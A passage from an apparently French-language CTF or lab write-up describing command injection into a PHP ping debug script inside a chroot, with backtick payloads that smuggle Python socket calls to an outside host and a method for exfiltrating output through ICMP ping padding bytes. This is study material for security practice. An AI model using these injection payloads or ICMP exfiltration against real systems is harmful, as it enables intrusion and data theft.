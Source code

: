 ce qui est plutôt limité... et pour /usr/bin  

```plain
/usr/bin/tr
/usr/bin/id
/usr/bin/xxd
/usr/bin/base64
/usr/bin/python
```

On est donc visiblement dans un *chroot*. Notez qu'il serait aussi possible de tester la présence de répertoires avec *-d* en bash.  

Si on tente d'établir une connexion sortante via *Python* en injectant :  

```plain
-c 1 `python -c 'import socket;socket.socket().connect(("192.168.1.3",21))';echo 192.168.1.3`
```

alors aucune connexion n'est établie, en revanche le script PHP prend un certain temps à répondre preuve que le firewall doit jeter la connexion au lieu de forcer sa fermeture.  

A tout hasard j'ai essayé via *Python* de scanner les ports de la machine hôte depuis la VM en TCP et UDP : vraiment rien ne sort.  

Le serveur web étant un *nginx* on trouve facilement via une recherche *duckduckgo* quel est le path par défaut. On peut confirmer le chemin du script *debug.php* avec cette commande :  

```plain
-c 1 `[ -f /usr/share/nginx/html/debug.php ] && echo 192.168.1.3`
```

Malheureusement l'utilisateur *nginx* avec lequel s'effectue les commandes ne dispose d'aucun droit en lecture dans la racine web.  

Tout n'est pas perdu : on peut exécuter des commandes, il ne nous manque seulement un moyen d'exfiltrer l'output via les paquets ICMP.  

Injecter un payload dans la balle
---------------------------------

Un petit tour dans la manpage de ping et on trouve finalement notre bonheur :  

> -p pattern  
> 
>    You may specify up to 16 ``pad'' bytes to fill out the packet you send. This is useful for diagnosing data-dependent problems in a network.  
> 
>    For example, -p ff will cause the sent packet to be filled with all ones.

Après quelques tests avec un *Wireshark* en parallèle on remarque qu'il faut aussi utiliser l'option *-s* qui permet de forcer la taille des données et ainsi avoir un décalage constant pour retrouver les données.  

On utilisera ainsi *ping* de cette façon :  

```bash
ping -p 4142434445464748495051525354555657 -s 32 192.168.1.3
```
